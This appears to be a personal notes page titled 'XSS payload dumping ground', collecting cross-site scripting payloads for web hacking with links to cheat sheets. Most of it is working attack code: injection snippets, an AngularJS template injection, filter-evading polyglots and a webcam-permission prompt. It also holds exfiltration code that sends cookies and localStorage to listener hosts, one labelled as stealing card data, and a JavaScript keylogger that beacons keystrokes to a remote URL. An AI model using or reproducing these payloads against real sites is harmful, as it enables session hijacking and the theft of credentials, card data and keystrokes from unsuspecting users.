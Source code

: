 ```yaml
---
is: "[[vulnerability]]"
of: "[[hacking web services]]"
---
```

# Notes
XSS payload dumping ground

## HTML injection (without XSS)
```
<b>hacking</b>
<img src="https://cdn.pixabay.com/photo/2017/03/08/19/39/hacked-2127635__180.png"></img>
```

## Quick snippets
```
<script>alert(123)</script>
“><script>alert(document.cookie)</script>
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
<iframe onload=alert(1)></iframe>
<IMG SRC=/ onerror="alert(1)"></img>
<IMG SRC=/ onerror="alert(JSON.stringify(window.localStorage))"></img>
$.get(encodeURI("http://127.0.0.1:8000/stolen_creds?" + JSON.stringify(window.localStorage)
<iframe frameBorder="0" height="1" width="1" onload=$.getScript("http://127.0.0.1:8000/evil.js")></iframe>foo
<iframe/src=javascript:alert(1)>
<iframe/src=javascript:console.log('foo')>
<iframe/src=http://localhost:8000/evil.html>
```

# Angular JS
```
{{constructor.constructor('alert(1337)')()}}
```

# Ask for webcam permissions
```
<script>
if (navigator.mediaDevices.getUserMedia) {
  navigator.mediaDevices.getUserMedia({ video: true })
    .then(function (stream) {
      alert("Thanks for sharing your webcam with the security team!")
    })
    .catch(function (error) {
      alert("We'll get you another way!")
    });
}
</script>
```

# Emoji payload
```
"><script>alert("💻👿😀")</script>
```

# Data extraction
Cookies: `document.cookie`
Domain: `document.domain`
Localstorage: `JSON.stringify(window.localStorage)`

## Extracting from localStorage
Extracting key and subkeys
```
JSON.parse(window.localStorage.getItem('key')).subkey
```

# Data exfiltration
## Post to webhook
Requires jQuery
```
$.get(encodeURI("http://127.0.0.1:8000/stolen_creds?"+JSON.stringify(window.localStorage)))
```

## Via redirect
Simple, but the redirect could give things away (unless in an iframe)
```
window.location.href='http://localhost:8000/steal?'+myPayload
```

## post data via ajax
- [Using JQuery to access an AWS API Gateway (CORS) – Andrea Lettieri – Medium](https://medium.com/@peorth/using-jquery-to-access-a-aws-api-gateway-cors-afa11fd27f2a)

```
$.ajax({
  type: "POST",
  url: "http://6jqafzvzx85atjuqim2gq5gjsay0mp.burpcollaborator.net",
  crossDomain: true,
  data: cc_data,
  contentType: "application/json",
  dataType: "json",
  success: function(data, status) {
    alert("CC successfully stolen.\nData: " + data + "\nStatus: " + status);
  }
});
```

# Cheat sheets
* https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
* http://www.xss-payloads.com/payloads-list.html?a#category=all
* https://netsec.expert/posts/xss-in-2021/

# Javascript keylogger
https://github.com/JohnHoder/Javascript-Keylogger/blob/master/keylogger.js
```
var keys='';
var url = 'http://127.0.0.1:8000/keylogger?c=';

document.onkeypress = function(e) {
	get = window.event?event:e;
	key = get.keyCode?get.keyCode:get.charCode;
	key = String.fromCharCode(key);
	keys+=key;
}
window.setInterval(function(){
	if(keys.length>0) {
		new Image().src = url+keys;
		keys = '';
	}
}, 1000);
```
# XSS Polyglots
* https://chefsecure.com/courses/xss/recipes/polyglots-the-ultimate-xss-payloads
* https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

# Javascript Payload Sites
http://www.xss-payloads.com/payloads-list.html?a#category=all

# Owasp
https://owasp.org/www-community/xss-filter-evasion-cheatsheet


